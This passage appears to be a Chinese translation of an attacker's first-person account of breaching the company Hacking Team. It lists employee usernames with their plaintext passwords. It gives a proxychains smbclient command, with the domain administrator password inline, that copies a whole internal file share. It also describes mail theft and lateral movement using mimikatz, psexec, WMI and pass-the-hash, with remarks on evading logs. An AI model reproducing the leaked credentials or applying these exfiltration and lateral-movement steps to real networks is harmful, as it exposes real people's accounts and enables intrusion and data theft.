 ```
HACKINGTEAM  d.romualdi     Rd13136f@#
HACKINGTEAM  l.invernizzi   L0r3nz0123!
HACKINGTEAM  e.ciceri       2O2571&2E
HACKINGTEAM  e.rabe         erab@4HT!

```

0x09 下载邮件
=========

* * *

现在我有了域管理员密码，就可以进入到业务核心——邮件中了。之后做的每一步操作都有可能随身被发现，以防万一，先下载邮件，这里powershell起了很大的作用。我发现了处理日期的一个bug。在得到邮件后，我又花了两周时间去获得源码和其他东西，之后又把新的邮件下载了下来。服务器是意大利的，时间的格式是：日/月/年，我用：

```
-ContentFilter {(Received -ge '05/06/2015') -or (Sent -ge '05/06/2015')}

```

这个语法去搜索邮件服务器并且下载新的邮件，问题是获得了”日期错误：day不能大于12“的结果，因为欧洲时间中月份通常在第一位，月份不能大于12,。看来微软的工程师们只在他们自己的时区测试了他们的软件。

0x0a 下载档案
=========

* * *

现在我已经是域管理了，我开始通过smb客户端和代理去下载各种资源：

```
proxychains smbclient '//192.168.1.230/FAE DiskStation' \ -U 'HACKINGTEAM/Administrator%uu8dd8ndd12!' -Tc FAE_DiskStation.tar '*'

```

至此，所有的东西都被下载下来了。

0x0b windows域渗透简介
=================

* * *

在与HT的故事结束之前，我想对windows内网渗透做一些简介。

#### 1 横向移动(这种名词国内好像还没有对应的术语)

在这里，我跟大家对各种内网渗透的技术做一些回顾。远程执行的方式是需要密码或者本地管理员的hash的。目前为止，最常见的方法是在机器上以管理员权限用mimikatz本地抓取管理员密码。而比较好的提升权限工具主要是PowerUp和bypassuac。 远程移动：

1)psexec

> windows上这方面很有效的工具。你可以使用psexec，winexe，metasploit的psexec_psh，powershell 的invoke_psexec或者windows内建函数"sc"。对于metasploit的模块和powershell、pth-winexe，你只需要hash即可，无需密码。这是最通用的方法，但是也是最不隐蔽的方法。时间类型7045“service control manage”会显示在时间日志中。根据我的经验，没有人会在渗透的时候注意到这个细节，但是这个细节却对事件调查者有一定的帮助。

2)WMI

> 这是最隐蔽的方法。WMI服务在除了服务器的所有windows机器上都是开着的，服务器上的防火墙默认不会允许该服务通过。你可以使用wmiexec.py，pth-wmis，powershell 的 invoke_wmi，或者windows上的内建wmic函数。所有的wmic只需要hash。

